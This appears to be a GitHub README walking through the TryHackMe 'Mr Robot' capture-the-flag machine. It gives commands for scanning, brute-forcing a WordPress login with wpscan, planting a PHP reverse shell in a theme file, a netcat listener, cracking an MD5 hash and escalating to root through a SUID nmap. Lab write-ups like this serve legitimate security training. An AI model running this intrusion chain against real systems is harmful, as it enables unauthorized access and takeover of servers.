 # MRrobotCTF
#created this repo as a guide to mrrobot CTF/Vuln machine follow the steps have fun !
QMARK CTF



Steps:

#download the vpn file to connect tryhackme server

#save in desktop 

#open terminal in the folder and type command [sudo openvpn filename.octozion.ovpn]     //if you dont have openvpn installed follow this link https://openvpn.net/community-resources/installing-openvpn/

#Join the room

#Task 1:instructions 

#Task2 :

    KEY1 & 2 & 3 :
    #Cope the IP Address to the clipboard
    #Open terminal  make a folder to work with this CTF using the command [mkdir]
    #Run nmap on the ip address [nmap -sV -A -sC 10.10.241.161] | tee nmapout.txt]       //network scan and storing the result in nmapout.txt
    #Port  80/443 is open
    #Use burp suit > proxy > open browser > intercept off and paste the ip address
    #Use gobuster with the wordlist downloaded from my githum [sudo gobuster dir  -u http://10.10.144.191/ -w ~/Downloads/mr.robot-CTF-/wordlistgobuster.txt -x .txt]
    #Found /wp-admin , robots.txt
    #check both the url
    #on checking robots.txt you'll get they open the [IP/key-1-of-3.txt] **1st key**
    
    #Use wp-scan [wpscan --url 10.10.86.19/wp-login.php -U 'elliot' -P wordlist.dic]
    #Download the shell https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
    #inside wp dashboard go to  appreance and editor
    #edit in 404.php code ane save and use netcat [nc -lvnp 1234 ]
    #To make the session more stabel [ python -c 'import pty;pty.spawn("/bin/bash")' ]
    #now to goto /home/robot two file now use command [cat password.raw-md5 ]
    #copy the md5 has and use john the ripper and save as mrrobot.hash
    #use john the ripper tool   [john 'md5 (1).hash' --wordlist=fsocity.dic --format=Raw-MD5]
    #got the password abcdefghijklmnopqrstuvwxyz
    #type su robot and type the password and cat the **2nd key**
    
    #use the command [find / -perm /4000 -print 2>/dev/null] which checks the privilage excaltion to goto root
    #nmap is inside it 
    #get the command for privillage excalation
    #nmap --interactive     //command to shift nmap interactive mode
    #nmap> !sh      //command to shit root
    # ls /root/     //gives the third key
    # cat the final **3rd key**
